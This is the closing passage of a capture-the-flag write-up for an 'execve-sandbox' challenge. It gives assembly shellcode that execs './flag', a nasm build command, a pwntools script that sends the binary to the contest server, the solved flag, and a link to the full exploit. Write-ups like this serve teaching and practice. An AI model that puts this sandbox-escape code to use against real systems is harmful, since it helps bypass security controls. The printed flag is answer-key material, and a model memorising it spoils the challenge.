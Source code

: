 ```
  mov r10, rsp
  mov rsp, 0x10100
  mov qword [0x10000], rax
  mov rax, 59 ; execve
  mov rdi, 0x10000 ; filename
  push 0
  mov rdx, rsp ; envp = {0}
  push 0x10000
  mov rsi, rsp ; argv = {0x10000, 0}
  syscall

filename db "./flag"
db 0
filesize  equ  $ - $$
```

And compiling it with 

```sh
$ nasm -f bin -o flagger flagger.asm
```

Will give us the final binary to send with:

```python
#!/usr/bin/env python2

from pwn import *

assert len(sys.argv) > 1

with open(sys.argv[1], 'rb') as f:
    payload = f.read()

p = remote('execve-sandbox.ctfcompetition.com', 1337)
p.recvuntil('[*] waiting for an ELF binary...')
p.send(payload + 'deadbeef')

p.interactive()
```

Will give us our beloved flag!

**CTF{Time_to_read_that_underrated_Large_Memory_Management_Vulnerabilities_paper}**

In the following link to a zip file you can find the execve-sandbox.c source code, the execve-sandbox binary, the libLIEF.so binary needed to run execve-sandbox, the full exploit in the flagger.asm file and the run.py script.

[Attachment](https://drive.google.com/file/d/1RbE5jM5aG8phRHA7s6--fbF4chsGMBpg/view?usp=sharing)

